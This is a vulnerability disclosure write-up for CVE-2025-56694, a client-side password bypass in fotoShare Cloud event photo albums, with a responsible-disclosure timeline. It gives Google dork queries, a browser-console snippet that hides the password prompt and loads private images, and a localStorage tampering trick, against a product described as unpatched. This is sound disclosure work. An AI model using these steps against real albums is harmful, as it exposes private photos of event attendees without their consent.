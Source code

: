 ```yaml
---
title: "Password Bypass Vulnerability in fotoShare Cloud Events"
date: 2025-08-20 10:00:00 +0000
layout: post
---
```


# Vulnerability Summary
- **CVE ID:** [CVE-2025-56694](https://www.cve.org/CVERecord?id=CVE-2025-56694)  
- **Vendor:** LumaSoft  
- **Product:** fotoShare Cloud (public-facing SaaS photo album platform)  
- **Affected Component:** Password-protected photo albums  
- **Affected Versions:** All deployments up to at least 2025-08-20 (no patch available)  
- **Vulnerability Type:** Incorrect Access Control ([CWE-602: Client-Side Enforcement of Server-Side Security](https://cwe.mitre.org/data/definitions/602.html))  
- **Impact:** Remote attackers can bypass client-side password protection to access private photo albums and images without authorization.  
- **Attack Vector:** Network  
- **Discoverer:** inf0sectom  

# What is fotoShare Cloud?

[fotoShare Cloud](https://fotoshare.co/) is a SaaS offering clients to instantly upload pictures taken from IRL photobooths to online photo albums that can be shared with event attendees via a URL. This URL is shared with attendees by email or SMS directly from the photobooth. 

[Passwords can be set on these photo albums](https://support.lumasoft.co/hc/en-us/articles/360046797573-Event-Privacy-and-Link-Sharing) by the owner of the photobooth, so that only guests with the password can view pictures from that event. For added privacy, photobooth owners can disable guest access so that guests cannot see other photos from the event. Typically, events only contain one album. Events, albums and images all have their own unique IDs.

# Finding the Vulnerability
## robots.txt
Events and photo albums are all available from the `/e/` and `/a/` subfolders, respectively. I was curious to see if these were indexed by Google, which led me to finding many albums simple Google dorks, such as `inurl:/e/ site:fotoshare.co`. I then checked fotoShare's `robots.txt` file, to confirm it was missing these subfolders:

```
C:\>curl https://fotoshare.co/robots.txt
User-agent: *
Disallow: /s/
Disallow: /u/
Disallow: /i/
```

Doing this led me to finding events and photo albums that were password-protected.

## Password-Protected Events

Hoping to find a vulnerability in the password protection mechanism, I inspected the JavaScript of a password-protected event and found the password verification function below:
```javascript
function verifyPassword(){
	var pwd = $("#albumPassword").val();
	$.ajax({
       url:'/album/validatepassword',
       type:'POST',
       data:{'password':pwd, 'album_id': '<album_id>' },
       dataType:'json',
       success:function(result){
       	 if(result.success){
       	    // would be expire in an year
            localStorage.setItem('album_<album_id>', 'true') ;
            
            $('#passwordModal').modal('hide') ;
   	 	 	 	        lazySizes.init();
       	 } else {
       	 	$('#notMatchedError').html('Incorrect Password');
       	 }
       }
    });
}
```

As you can see, this function takes the password entered by the user and submits it, along with the ID of the album, to the server through a POST request in AJAX.
The server returns `True` or `False` depending on whether the correct password for the album is entered. If the returned value is `False`, the page will display "Incorrect Password", but if the returned value is `True`, `if(result.success)` will execute the following:

```javascript
localStorage.setItem('album_<album_id>', 'true') ;// Locally store a value indicating the album as being visible 
$('#passwordModal').modal('hide') ;               // Hide the password prompt
lazySizes.init();                                 // Load the images via LazySizes
```

LazySizes is a JavaScript library used for lazy loading media content (such as images) on a webpage, to defer the loading of non-essential resources until they are needed. This is typically done to improve page load performance. In this case, it was wrongly used to prevent event images from being loaded by the client until the correct password is submitted by the client.

While the password verification is correctly done server-side, the actual mechanism to display the album was therefore done client-side, meaning there was nothing preventing an attacker from simply running the code contained within `if(result.success){}` directly from the browser console. This security weakness is referred to by MITRE as [CWE-602: Client-Side Enforcement of Server-Side Security](https://cwe.mitre.org/data/definitions/602.html).

To confirm no authentication (such as a session token) was required to access images in password-protected events, I looked through the page's source code and successfully accessed the URLs contained in the `<img>` tags (such as the one below) in a private window. The URLs of password-protected images were referenced directly in the page's source code and available without an authentication mechanism.

```html
<img data-src="https://cdn-bz-op.fotoshare.co/<path_redacted>/<filename_redacted>.jpg?aspect_ratio=1:1.002&amp;width=450" class="lazyload border-radius-thumb" onerror="this.src='/img/blank-image.jpg'">
```

### Further Issues

The value stored locally by the first line contained within `if(result.success){}` (`localStorage.setItem('album_<album_id>', 'true') ;`) was being used in the JavaScript code below, when the page is loaded, so that clients wouldn't have to enter the password multiple times to see the album again. This meant that a malicious actor could also simply manually store the value and refresh the page to bypass the password-protection.

```javascript
var authenticated = JSON.parse(localStorage.getItem('album_<album_id>'));

if(true && authenticated !== true){
       $('#passwordModal').modal('show') ;
          $("#passwordModal").modal({
            keyboard: false,
         backdrop: 'static'
          });
          
          $('#albumPassword').focus();
          
          $('#albumPassword').on("keypress", function (e) {            
            if (e.keyCode == 13) {
             // Cancel the default action on keypress event
             e.preventDefault();
             verifyPassword(); 
               }
          });
          
          $('#passwordForm').on("submit", function (e) {            
              e.preventDefault();
             verifyPassword(); 
          });
    
} else {
             lazySizes.init();
}
```


# Exploiting the Vulnerability

A remote attacker could simply browse the web page of a password-protected event and run the JavaScript code below from the web browser's console to access private pictures:

```javascript
$('#passwordModal').modal('hide') ;               // Hide the password prompt
lazySizes.init();                                 // Load the images via LazySizes
```

A remote attacker could also parse the web page's source code to list the URLs of the private images, since these are directly referenced in an insecure manner.

As a result, private photo albums intended to be accessible only to event participants with a password can be viewed by anyone with the public album URL.

# Responsible Disclosure Timeline
- **2025-03-12**: Discovered the vulnerability.
- **2025-03-13**: Opened a support ticket with LumaSoft (parent company) and disclosed both the vulnerability and the privacy issue related to their `robots.txt` file, which was then forwarded by the support staff to their development team.
- **2025-04-02**: Confirmed the privacy issue related to the `robots.txt` file has been resolved.
- **2025-04-28**: After requesting for an update, LumaSoft support confirmed the development team is working on other updates.
- **2025-05-16**: After receiving no further updates, a 60-day deadline before public disclosure was provided to LumaSoft.
- **2025-06-17**: After receiving no further updates, a 30-day reminder was sent to LumaSoft.
- **2025-07-11**: A final reminder was sent to LumaSoft.
- **2025-07-18**: A CVE ID request was sent to MITRE.
- **2025-08-20**: [CVE-2025-56694](https://www.cve.org/CVERecord?id=CVE-2025-56694) was reserved by MITRE.


# Notes
*Text within angle brackets (`<>`) has been replaced throughout this write-up for privacy reasons.*